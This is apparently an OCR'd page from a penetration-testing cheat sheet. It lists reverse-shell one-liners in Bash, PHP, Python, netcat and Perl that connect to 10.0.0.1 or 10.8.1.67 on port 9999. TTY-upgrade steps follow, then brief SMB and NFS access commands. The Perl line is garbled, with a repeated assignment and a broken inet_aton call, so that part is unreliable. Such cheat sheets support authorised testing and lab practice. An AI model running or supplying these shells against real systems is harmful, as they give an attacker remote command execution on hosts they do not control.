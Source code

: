 --------

## Extra

----------

#### Shells

```sh
#Reverse shells
Bash	bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
PHP	php -r '$sock=fsockopen("10.0.0.1",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
Python	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
NC v1	nc -e /bin/sh 10.0.0.1 9999
NC v2	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.67 9999 >/tmp/f
Perl	perl -e 'use Socket;i="10.0.0.1";i="10.0.0.1";p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in(p,inet\_aton(p,inet_aton(i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#Shell Upgrades
Perl	perl -e 'exec "/bin/bash";'
Bash	echo os.system('/bin/bash')

#Python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116

```



#### SMB

```sh

#Access the SMB share: 
smbclient //$IP/SHARE_NAME 

#use:
-U [name] : to specify the user 
-p [port] : to specify the port 
```
#### NFS
```sh
#List the NFS shares 
showmount -e $IP

#Mounting NFS shares
sudo mount -t nfs $IP:share /tmp/mount/ -nolock

#mount -> Execute the mount command 
#-t nfs -> Type of device to mount, then specifying that it's NFS 
#$IP:share -> The IP Address of the NFS server, and the name of the share we wish to mount 
#-nolock -> Specifies not to use NLM locking 

```
